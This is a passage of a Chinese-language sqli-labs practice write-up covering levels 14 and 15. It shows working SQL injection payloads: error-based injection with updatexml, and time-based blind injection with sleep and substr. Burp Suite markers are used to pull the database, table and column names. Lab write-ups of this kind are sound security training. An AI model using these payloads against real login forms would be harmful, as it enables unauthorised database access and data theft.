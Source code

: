 * 查库

![image](https://user-images.githubusercontent.com/76896357/114979462-7b535b00-9ebd-11eb-8675-4a8208c6fdec.png)

在这里，进行延时注入的时候发现他报错，有可能存在报错注入


延时注入可以爆破，

```
uname=admin" and updatexml(1,concat('^',(select database()),'^'),1) #&passwd=&submit=Submit 
```

![image](https://user-images.githubusercontent.com/76896357/114980178-ab4f2e00-9ebe-11eb-9cab-b77cb85d3992.png)

报错注入也可以

下面的就是换语句进行报错注入了，这一关，就先过了


## 15. 延时注入

* 尝试了，很多方式，没有回显，没有报错

只能用绝招(绝境用的招数)，延时注入，让他睡！！！

首先说一下，实在比较麻烦，最好用工具爆破，sqlmap更好

* 查看闭合方式：

![image](https://user-images.githubusercontent.com/76896357/114981202-34b33000-9ec0-11eb-9be2-1628936d4fef.png)

只有在__‘__的情况下，才会睡觉，呢么闭合方式就是__’__


* 查库

```
uname=admin' and if(substr(database(),§1§,1)='§s§',sleep(5),1)#&passwd=&submit=Submit//使用substr函数，利用bp爆破
```

![image](https://user-images.githubusercontent.com/76896357/114982063-8ad4a300-9ec1-11eb-8be4-ec232ce7a37c.png)

* 查表
```
uname=admin' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),§1§,1)='§s§',sleep(5),1)#&passwd=&submit=Submit//这里我用的bp爆破，标记点也已经给出，但是只能爆出第一个，需要我们手动改一下limit，后面的那个值
```

![image](https://user-images.githubusercontent.com/76896357/114982545-2ebe4e80-9ec2-11eb-89c4-9d9233c74629.png)

下面这个就查到了user表！！！

![image](https://user-images.githubusercontent.com/76896357/114982884-8f4d8b80-9ec2-11eb-8f41-c2d52500db0f.png)

* 查列
```
uname=admin' and if(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),§1§,1)='§s§',sleep(5),1)#&passwd=&submit=Submit
```
查到user列
